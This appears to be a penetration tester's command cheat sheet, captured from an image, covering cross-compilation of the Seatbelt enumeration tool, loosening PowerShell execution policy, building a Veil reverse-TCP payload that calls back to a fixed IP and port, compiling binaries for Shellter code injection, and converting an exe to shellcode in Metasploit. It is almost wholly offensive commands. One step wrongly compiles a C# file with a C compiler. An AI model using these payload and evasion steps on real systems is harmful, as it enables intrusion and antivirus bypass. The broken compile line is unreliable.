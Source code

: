 # Seatbelt


git clone [https://github.com/GhostPack/Seatbelt.git](https://github.com/GhostPack/Seatbelt.git)

## Get cross compiler

```
sudo apt install mingw-w64
```

```
sudo apt install mono-complete
```

## Compile

```
x86_64-w64-mingw32-gcc -o Seatbelt.exe Seatbelt.cs
```

```
mcs -out:Seatbelt.exe Seatbelt.cs
```

# Powershell Execution Policies

```
Get-ExecutionPolicy -Scope CurrentUser
```

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```
Get-ExecutionPolicy -Scope CurrentUser
```

# Veil compile ordnance payload

```
./Veil.py -t Evasion -p 33 --ordnance-payload rev_tcp --ip 192.168.45.157 --port 9998 -o payload
```

# Shellter to inject code into existing binaries

## compile windows binaries

```
x86_64-w64-mingw32-gcc -o cbshell.exe cbshell.c -lws2_32
```

## compile dll

```
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

# convert exe to shellcode

```
msfconsole
```

```
use payload/generic/custom
```

```
set PAYLOADFILE /home/kali/Inev/bufferoverflows/web_based.exe
```

```
set PAYLOADSTR data.bin
```

```
generate
```